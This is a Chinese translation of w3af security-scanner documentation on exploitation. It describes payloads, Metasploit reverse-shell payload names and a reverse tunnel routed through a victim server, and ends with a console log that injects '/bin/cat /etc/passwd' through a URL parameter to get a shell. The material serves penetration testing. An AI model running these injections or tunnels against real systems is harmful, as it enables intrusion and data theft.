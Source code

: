 ```bash
w3af/exploit/local_file_reader-0>>>
```

这显示了如何**利用一个简单的任意文件读取漏洞**来检索**正在运行的进程的完整列表**。为简洁起见，未显示能够读取打开的 TCP/IP 连接，操作系统 IP 路由表以及更多信息的类似示例。

使用 `lsp` 命令可以列出所有可用的攻击载荷。请务必注意，可以运行的有效负载列表会根据所使用的漏洞进行更改。例如，在远程文件包含漏洞的 shell 中运行可能会返回所有 攻击载荷 的列表， 而且 本地文件读取 shell 中运行， 塔将返回 漏洞仅开放 `read()` 系统调用时可以运行的攻击载荷 (而不是完整的攻击载荷列表)。

## 与 Metasploit 集成 (Metasploit integratio)
这里还有一组 web 应用攻击载荷 可以用来与 Metasploit 框架交互。当漏洞利用提供 `exec()` 系统调用时，这允许 `w3af` 用户上传 Metasploit 攻击载荷到目标系统，并执行他们以进行 后渗透 的步骤。

* msf_linux_x86_meterpreter_reverse
* msf_windows_meterpreter_reverse_tcp
* msf_windows_vncinject_reverse

基本过程如下 

* 在扫描过程中识别漏洞
* 利用漏洞
* 使用 Run “payload <payload_name>”

## 通过受害主机代理流量 (Metasploit integration)

我们也实现了一个 web 应用载荷，其功能是建立一个  反向通道 (reverse tunnel) 会以受害主机为代理 路由 TCP 连接。 在进行示例展示签，我们先解释一下这个功能的应用场景，对整个攻击过程与步骤进行一个总结：

1. `w3af` 发现一个可以进行远程命令执行的漏洞
2. 用户利用了该漏洞，并且启动了一个 `w3af_agent`
3. `w3af` 发送一个小体积的可执行文件到远程服务器执行 extrusion scan。 这个可执行文件会主动对 `w3af` 建立一个连接，帮助 `w3af` 框架识别远程服务器上可以外连的防火墙规则。 
4. `w3af_agent` 管理器会将 `w3afAgentClient` 发送到远程服务器。这个上传文件到远程服务器的过程受到 远程服务器操作系统，运行 `w3af` 用户的权限 以及 本地操作统 影响。不过大部分情况下发生了如下的案例：
    * `w3af` 复用在步骤3 extrusion scan 时得到的信息，这么做的目的时了解那个端口可以被用于在受害服务器上监听外来的 TCP 连接。
    * 如果在远程防火墙规则上找到一个可用的 TCP 端口， `w3af` 会在这个端口上运行一个TCP服务端应用。此时远程受害主机会连接到 `w3af` 的服务器，下载 PE/ELF 生成文件。 如果没有可用的 TCP 端口， w3af 会通过若干个 `echo` 命令将 PE/ELF 文件发送到远程服务器，这个过程会慢很多，但踪能成功，这是一种带内传输方法
5. `w3af_agent` 管理器会启动一个 `w3afAgentServer` ，这个 Server 监听 `localhost:1080` （大部分 w3af 用户都使用这个），之后在交互界面 (misc-settings->interface) 配置，会使用 步骤3 发现可用的端口
6. `w3afAgentClient` 连接到 `w3afAgentServer`，成功构造了通道(tunnel)
7. 用户为他需要代理的应用配置 代理地址 "localhost:1080"
8. 当这个应用通过 socks 代理连接，所有上行连接都会被路由到远程受害服务器。

现在我们已经理解理论了，让我们看一下这个功能的示例吧

```bash
w3af>>> plugins
w3af/plugins>>> audit os_commanding
w3af/plugins>>> back
w3af>>> target
w3af/target>>> set target http://172.10.10.1/w3af/v.php?c=list
w3af/target>>> back
w3af>>> start
The list of found URLs is:
- http://172.10.10.1/w3af/v.php
Found 1 URLs and 1 different points of injection.
The list of Fuzzable requests is:
- http://172.10.10.1/w3af/v.php | Method: GET | Parameters: (c)
Starting os_commanding plugin execution.
OS Commanding was found at: http://172.10.10.1/w3af/v.php . Using method: GET.
The data sent was: c=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
w3af>>> exploit
os_commanding exploit plugin is starting.
Vulnerability successfully exploited. This is a list of available shells:
- [0] <os_commanding object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19-generic i686 GNU/Linux")>
```